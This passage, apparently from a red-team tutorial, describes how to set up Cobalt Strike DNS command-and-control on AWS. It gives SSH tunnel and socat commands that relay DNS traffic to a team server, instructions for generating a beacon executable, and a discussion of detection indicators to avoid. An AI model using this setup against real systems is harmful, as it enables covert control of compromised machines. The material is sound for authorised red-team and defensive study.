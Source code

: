 
***!!! OPSEC notice !!!***
It's bad practice to expose your CS team server on default 50050 port. A more secure way is to allow only SSH (22 port) for inbound connection and connect to team server using SSH tunnel. The command for creating ssh tunnel on operator machine:
```
ssh -N -L 50050:127.0.0.1:50050 [ssh_username]:[ip]
```
then team server should be reachable on localhost:50500 on operator machine.

6. Create DNS listener:
One gotcha here. On AWS EC2 by default 53 port is used by *systemd-resolve* you can either modify this service or run listener on another port (here using 5353):
![DNS listener in CS](/media/dns-redirector/cs-dns-setup.png)
for more DNS listener options please refer to [official CS manual](https://www.CobaltStrike.com/help-dns-beacon)

## DNS Redirector Setup
Basically, there are at least two ways using socat to do this.

Firstly, you can rely on fact that the redirector and C2 are on the same internal network. In a such way, it's possible to open firewall rules (AWS - security groups) to allow inbound connection on port 5353 only from redirector instance. Using this setup redirection can be based only on one command:
```
socat udp4-listen:53 udp4:[teamserver_internal_ip]:5353
```

In setup when redirector and c2 are on different networks, ssh tunnel could be utilized to connect this two. For a more in depth, explanation look into [rvrsh3ll tutorial](https://medium.com/rvrsh3ll/redirecting-cobalt-strike-dns-beacons-e3dcdb5a8b9b).

In short, the steps are:
1. Create socat listener on UDP port 53 that forks each packet and relay it over TCP:
```
~ socat udp4-listen:53,reuseaddr,fork tcp:localhost:53535; echo -ne \n
```
2. Tunnel TCP relay on port 53535 using ssh to C2 server:
```
~ ssh -i ssh_key -oStrictHostKeyChecking=no -L 53535:localhost:53535 -l username teamserver_ip; echo -ne \n;
```
it's necessary to provide a proper ssh key, teamserver_ip, and username

3. On C2  using socat convert TCP 53535 to UDP 5353:
```
~ socat tcp4-listen:53535,reuseaddr,fork UDP:localhost:5353
```

4. Test if the DNS channel is working. Generate sample .exe malware in Cobalt Strike: Attacks -> Packages -> Windows Executable (S). Then run it on your test system and wait for connection.

Other interesting techniques for DNS redirection can be found in this great [coresecurity article](https://www.coresecurity.com/core-labs/articles/simple-dns-redirectors-cobalt-strike).

## Problems with current approach
### Problem 1 - 0.0.0.0 response
The first red alarm is connected with fact that our DNS listener responds with 0.0.0.0 as IP address associated with a malicious domain. Proof:
```
~ nslookup dns.yourdomain.com
Non-authoritive answer:
Name: dns.yourdomain.com
Address: 0.0.0.0
```
it's highly unusual to respond with 0.0.0.0 and it can be an indicator that this DNS server and domain is malicious and can be attributed to Cobalt Strike.